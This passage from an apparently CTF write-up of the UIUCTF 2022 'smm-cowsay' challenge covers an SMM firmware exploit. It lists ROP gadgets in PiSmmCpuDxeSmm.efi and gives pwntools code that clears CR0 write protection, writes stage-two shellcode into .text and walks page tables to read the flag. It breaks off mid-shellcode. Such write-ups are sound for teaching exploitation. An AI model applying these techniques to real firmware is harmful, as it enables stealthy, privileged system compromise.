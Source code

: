 Now we can take a look at the gadgets in `PiSmmCpuDxeSmm.efi`. As it turns out,
we were lucky enough:

- Looking from GDB, we still have R13, R14 and R15 spilled on the SMI stack at
  the exact same offset.
- We can move the stack pointer forward: `ret 0x6d`
- We can flip the stack: `pop rsp; ret`
- We can pop RAX and other registers: `pop rax ; pop rbx ; pop r12 ; ret`
- We can set CR0: `mov cr0, rax ; wbinvd ; ret`
- We have a write-what-where primitive: `mov qword ptr [rbx], rax ; pop rbx ; ret`

We do not have a lot more nice gadgets to work with, so this time instead of
writing the entire exploit using ROP, after disabling CR0.WP, we will just use
the write-what-where gadget to overwrite a piece of `.text` of
`PiSmmCpuDxeSmm.efi` with a stage 2 shellcode, and then simply jump to it.

The only slightly annoying part is the `ret 0x6d` gadget to move the stack
forward: it will result in a misaligned stack, landing in the 2 most significant
bytes of the R13 value spilled on the stack. This isn't a real problem as
thankfully the CPU (or better, QEMU) does not seem to care about the unaligned
stack pointer. We'll simply have to do some bit shifting to put values on the
stack nicely using R{13,14,15}.

```python
# SmmConfigurationProtocol leaked using LocateProtocol(gEfiSmmConfigurationProtocolGuid)
PiSmmCpuDxeSmm_base = SmmConfigurationProtocol - 0x16210
PiSmmCpuDxeSmm_text = PiSmmCpuDxeSmm_base + 0x1000

log.success('SmmConfigurationProtocol    @ 0x%x', SmmConfigurationProtocol)
log.success('=> PiSmmCpuDxeSmm.efi       @ 0x%x', PiSmmCpuDxeSmm_base)
log.success('=> PiSmmCpuDxeSmm.efi .text @ 0x%x', PiSmmCpuDxeSmm_text)

new_smm_stack   = buffer + 0x800
ret_0x6d        = PiSmmCpuDxeSmm_base + 0xfc8a  # ret 0x6d
flip_stack      = PiSmmCpuDxeSmm_base + 0x3c1c  # pop rsp ; ret
pop_rax_rbx_r12 = PiSmmCpuDxeSmm_base + 0xd228  # pop rax ; pop rbx ; pop r12 ; ret
mov_cr0_rax     = PiSmmCpuDxeSmm_base + 0x10a7d # mov cr0, rax ; wbinvd ; ret
write_primitive = PiSmmCpuDxeSmm_base + 0x3b8f  # mov qword ptr [rbx], rax ; pop rbx ; ret

payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x6d)
```

### Second stage shellcode

As we just said we will make our ROP chain with a few gadgets that will write a
second stage shellcode into the `.text` of `PiSmmCpuDxeSmm.efi` and then jump to
it. This shellcode will have to walk the page table (this time we cannot
pre-compute the address of the PTE because of ASLR), set the present bit on the
PTE and then read the flag into (one or more) registers.

```python
stage2_shellcode = asm(f'''
    movabs rbx, 0xffffffff000

    /* Walk page table */
    mov rax, cr3
    mov rax, qword ptr [rax]
    and rax, rbx
    mov rax, qword ptr [rax + 8 * 0x1]
    and rax, rbx
    mov rax, qword ptr [rax + 8 * 0x22]
    and rax, rbx
    mov rbx, rax
    mov rax, qword ptr [rax + 8 * 0x40]

    /* Set present bit */
    or al, 1
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31
